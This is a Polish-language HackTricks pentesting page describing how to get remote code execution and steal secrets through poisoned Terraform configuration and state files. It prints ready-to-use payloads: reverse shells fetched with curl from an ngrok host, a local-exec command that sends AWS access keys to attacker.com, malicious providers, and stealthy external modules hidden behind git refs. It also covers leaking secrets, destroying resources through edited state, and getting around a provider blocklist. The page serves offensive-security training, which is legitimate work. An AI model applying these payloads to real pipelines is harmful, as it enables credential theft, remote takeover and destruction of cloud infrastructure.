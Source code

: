 # Bezpieczeństwo Terraforma

<details>

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępnij sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

## Podstawowe informacje

[Z dokumentacji:](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform to narzędzie **infrastruktury jako kod**, które pozwala zdefiniować zarówno **zasoby chmurowe, jak i lokalne** w czytelnych dla ludzi plikach konfiguracyjnych, które można wersjonować, ponownie używać i udostępniać. Następnie możesz użyć spójnego przepływu pracy do wdrażania i zarządzania całym swoim środowiskiem infrastruktury przez cały jego cykl życia. Terraform może zarządzać komponentami niskiego poziomu, takimi jak obliczenia, przechowywanie i zasoby sieciowe, a także komponentami wysokiego poziomu, takimi jak wpisy DNS i funkcje SaaS.

### Jak działa Terraform?

Terraform tworzy i zarządza zasobami na platformach chmurowych i innych usługach za pomocą ich interfejsów programowania aplikacji (API). Dostawcy umożliwiają Terraformowi pracę z praktycznie dowolną platformą lub usługą z dostępnym interfejsem API.

![](<../.gitbook/assets/image (177).png>)

HashiCorp i społeczność Terraformu już napisali **ponad 1700 dostawców** do zarządzania tysiącami różnych typów zasobów i usług, a ta liczba nadal rośnie. Wszystkie publicznie dostępne dostawcy można znaleźć w [Rejestrze Terraforma](https://registry.terraform.io/), w tym Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog i wiele innych.

Podstawowy przepływ pracy Terraforma składa się z trzech etapów:

* **Napisz:** Definiujesz zasoby, które mogą być rozproszone na wielu dostawcach chmurowych i usługach. Na przykład możesz utworzyć konfigurację do wdrożenia aplikacji na maszynach wirtualnych w sieci Virtual Private Cloud (VPC) z grupami zabezpieczeń i równoważnikiem obciążenia.
* **Plan:** Terraform tworzy plan wykonania opisujący infrastrukturę, którą utworzy, zaktualizuje lub zniszczy na podstawie istniejącej infrastruktury i twojej konfiguracji.
* **Zastosuj:** Po zatwierdzeniu Terraform wykonuje proponowane operacje w odpowiedniej kolejności, szanując zależności zasobów. Na przykład, jeśli zaktualizujesz właściwości VPC i zmienisz liczbę maszyn wirtualnych w tym VPC, Terraform najpierw odtworzy VPC, a następnie skaluje maszyny wirtualne.

![](<../.gitbook/assets/image (215).png>)

## Laboratorium Terraforma

Po prostu zainstaluj terraform na swoim komputerze.

Tutaj masz [przewodnik](https://learn.hashicorp.com/tutorials/terraform/install-cli) i tutaj masz [najlepszy sposób na pobranie terraforma](https://www.terraform.io/downloads).

## RCE w Terraform

Terraform **nie ma platformy eksponującej stronę internetową ani usługę sieciową**, którą można by wyliczyć, dlatego jedynym sposobem na skompromitowanie terraforma jest **możliwość dodania/modyfikacji plików konfiguracyjnych terraforma**.

Jednak terraform to **bardzo wrażliwy komponent** do skompromitowania, ponieważ będzie miał **uprzywilejowany dostęp** do różnych lokalizacji, aby móc poprawnie działać.

Głównym sposobem dla atakującego na skompromitowanie systemu, na którym działa terraform, jest **skompromitowanie repozytorium przechowującego konfiguracje terraforma**, ponieważ w pewnym momencie zostaną one **zinterpretowane**.

Faktycznie istnieją rozwiązania, które **automatycznie wykonują terraform plan/apply po utworzeniu PR**, takie jak **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Jeśli uda ci się skompromitować plik terraforma, istnieją różne sposoby wykonania RCE, gdy ktoś wykonuje `terraform plan` lub `terraform apply`.

### Terraform plan

Terraform plan to **najczęściej używane polecenie** w terraformie, a programiści/rozwiązania korzystające z terraforma często je wywołują, dlatego **najłatwiejszym sposobem na uzyskanie RCE** jest upewnienie się, że zatrujesz plik konfiguracyjny terraforma, który będzie wykonywał arbitralne polecenia w `terraform plan`.

#### Korzystanie z dostawcy zewnętrznego

Terraform oferuje dostawcę [`external`](https://registry.terraform.io/providers/hashicorp/external/latest/docs), który zapewnia sposób interfejsu między Terraformem a programami zewnętrznymi. Możesz użyć źródła danych `external`, aby uruchomić arbitralny kod podczas `planu`.

Wstrzyknięcie w plik konfiguracyjny terraforma czegoś w rodzaju poniższego spowoduje wykonanie powłoki rev podczas wykonywania `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Użycie niestandardowego dostawcy

Atakujący mógłby przesłać [niestandardowego dostawcę](https://learn.hashicorp.com/tutorials/terraform/provider-setup) do [Rejestru Terraforma](https://registry.terraform.io/) a następnie dodać go do kodu Terraforma w gałęzi funkcji ([przykład stąd](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Dostawca jest pobierany w `init` i uruchomi złośliwy kod podczas wykonywania `plan`

Przykład można znaleźć pod adresem [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Korzystanie z zewnętrznego odwołania

Obie wymienione opcje są przydatne, ale niezbyt skryte (druga jest bardziej skryta, ale bardziej skomplikowana niż pierwsza). Możesz przeprowadzić ten atak nawet w **bardziej skryty sposób**, postępując zgodnie z tymi sugestiami:

* Zamiast dodawać rev shell bezpośrednio do pliku terraform, możesz **załadować zewnętrzny zasób**, który zawiera rev shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Możesz znaleźć kod rev shell pod adresem [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* W zewnętrznym zasobie użyj funkcji **ref**, aby ukryć **kod rev shell Terraforma w gałęzi** wewnątrz repozytorium, coś w rodzaju: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Zastosowanie Terraforma

Zastosowanie Terraforma zostanie wykonane, aby zastosować wszystkie zmiany, można również nadużyć go, aby uzyskać RCE wstrzykując **złośliwy plik Terraforma z** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Wystarczy upewnić się, że pewny ładunek, taki jak poniższe, kończy się w pliku `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Postępuj zgodnie z **sugestiami z poprzedniej techniki**, aby przeprowadzić ten atak w **bardziej skrytym sposób, korzystając z zewnętrznych odwołań**.

## Wycieki Sekretów

Możesz mieć **wartości sekretne używane przez terraform wyciekające** uruchamiając `terraform apply`, dodając coś w rodzaju:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Nadużywanie plików stanu Terraforma

W przypadku posiadania uprawnień do zapisu plików stanu Terraforma, ale braku możliwości zmiany kodu Terraforma, [**to badanie**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) przedstawia kilka interesujących opcji wykorzystania pliku:

### Usuwanie zasobów <a href="#deleting-resources" id="deleting-resources"></a>

Istnieją 2 sposoby niszczenia zasobów:

1. **Wstawienie zasobu o losowej nazwie do pliku stanu wskazującego na rzeczywisty zasób do zniszczenia**

Ponieważ Terraform zauważy, że zasób nie powinien istnieć, zniszczy go (zgodnie z wskazanym rzeczywistym identyfikatorem zasobu). Przykład z poprzedniej strony:
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **Zmodyfikuj zasób do usunięcia w taki sposób, że nie będzie możliwe jego zaktualizowanie (zostanie usunięty i odtworzony)**

Dla instancji EC2 wystarczy zmienić typ instancji, aby terraform usunął ją i odtworzył.

### RCE

Możliwe jest również [utworzenie niestandardowego dostawcy](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) i zastąpienie jednego z dostawców w pliku stanu terraform odpowiednim złośliwym dostawcą lub dodanie pustego zasobu z złośliwym dostawcą. Przykład z oryginalnych badań:
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
## Zastąp zablokowanego dostawcę

W przypadku napotkania sytuacji, w której `hashicorp/external` został umieszczony na czarnej liście, możesz ponownie zaimplementować dostawcę `external`, wykonując następujące kroki. Uwaga: Używamy forka dostawcy external opublikowanego przez https://registry.terraform.io/providers/nazarewk/external/latest. Możesz również opublikować własny fork lub ponowną implementację.
```terraform
terraform {
required_providers {
external = {
source  = "nazarewk/external"
version = "3.0.0"
}
}
}
```
Następnie możesz użyć `external` jak zwykle.
```terraform
data "external" "example" {
program = ["sh", "-c", "whoami"]
}
```
## Narzędzia audytu

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec wykorzystuje statyczną analizę kodu terraforma do wykrywania potencjalnych błędów konfiguracyjnych.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan to statyczny analizator kodu dla infrastruktury jako kodu.

## Odnośniki

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

<details>

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plan abonamentowy**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępniaj sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
